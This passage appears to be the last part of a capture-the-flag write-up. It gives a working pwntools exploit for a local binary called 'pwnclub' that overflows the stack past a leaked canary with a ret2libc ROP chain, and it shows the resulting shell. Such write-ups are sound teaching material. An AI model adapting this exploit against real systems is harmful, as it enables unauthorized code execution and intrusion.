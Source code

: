 ### Stack Overflow Time!

Now, it is time to build our final exploit payload, and trigger the ret2libc exploit.  And much like before, I rely on my debugger to figure out that for the stack overflow, we must pass in 24 characters of padding, followed by the 64-bit stack canary, followed by another 8 characters of padding, and finally the ret2libc ROP chain.  After the overflow is performed, we must select `exit` so that main is returned from.

```python

# Perform Buffer Overflow
p.recvuntil('> ')
p.sendline('2')

payload = ''
payload += 'A'*24
payload += p64(stack_canary)
payload += 'C'*8
payload += str(rop)
p.sendline(payload)

# Trigger the exploit
p.recvuntil('> ')
p.sendline('3')

# Interactive Shell
p.interactive()
```

## Expected Output
```
$ ./solution.py 
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './pwnclub': pid 2515
[*] libc leaked address: 0x7f244bc528c0
[*] libc read address: 0x7f244b975070
[*] libc base address: 0x7f244b865000
[*] Loading gadgets for '/lib/x86_64-linux-gnu/libc.so.6'
[*] /bin/sh @ 0x7f244ba18e9a
[*] ret2libc ROP: 
    0x0000:   0x7f244b88655f pop rdi; ret
    0x0008:   0x7f244ba18e9a [arg0] rdi = 139793864429210
    0x0010:   0x7f244b8b4440 system
    0x0018:   0x7f244b88655f pop rdi; ret
    0x0020:   0x7f244ba18e9a [arg0] rdi = 139793864429210
    0x0028:   0x7f244b8b4440 system
    0x0030:   0x7f244b88655f pop rdi; ret
    0x0038:             0x2a [arg0] rdi = 42
    0x0040:   0x7f244b8a8120 exit
[*] Stack Canary: 0x4c4dd3944cdb4f00
[*] Switching to interactive mode
$ ls -la
total 4568
drwxrwxr-x 2 aaron aaron    4096 Oct  8 12:21 .
drwxrwxr-x 4 aaron aaron    4096 Oct  8 11:34 ..
-rw------- 1 aaron aaron 4632576 Oct  8 12:21 core
-rw-rw-r-- 1 aaron aaron     726 Oct  8 11:34 Dockerfile
-rw-rw-r-- 1 aaron aaron      39 Oct  1 23:40 flag.txt
-rw-rw-r-- 1 aaron aaron      62 Oct  2 17:05 Makefile
```